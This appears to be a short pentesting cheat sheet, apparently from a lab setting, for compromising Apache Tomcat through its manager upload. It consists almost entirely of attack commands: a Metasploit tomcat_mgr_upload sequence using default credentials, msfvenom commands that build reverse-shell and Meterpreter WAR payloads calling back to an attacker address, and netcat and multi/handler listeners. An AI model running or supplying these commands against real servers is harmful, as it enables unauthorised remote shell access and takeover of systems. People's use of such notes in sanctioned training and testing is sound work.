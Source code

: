 ```yaml
---
tags:
  - Pentesting
  - Exploitation
  - Apache
  - Tomcat
---
```

- https://www.exploit-db.com/exploits/31433
- https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/
- https://www.revshells.com/

## Metasploit

```
use exploit/multi/http/tomcat_mgr_upload
set RHOST 10.10.10.95
set RPORT 8080
set LHOST 10.10.14.16
set LPORT 4444
set HttpUsername tomcat
set HttpPassword s3cret
options
run
```

## shell.war

**payload**

`msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.16 LPORT=4444 -f war -o shell.war`

**listener**

`nc -lvnp 4444`

## shell.war

**payload**

`msfvenom -p java/meterpreter/reverse_tcp LHOST=10.10.14.16 LPORT=4444 -f war -o shell2.war`

**listener**

`msfconsole -q -x "use multi/handler; set payload java/meterpreter/reverse_tcp; set lhost 10.10.14.16; set lport 4444; exploit"`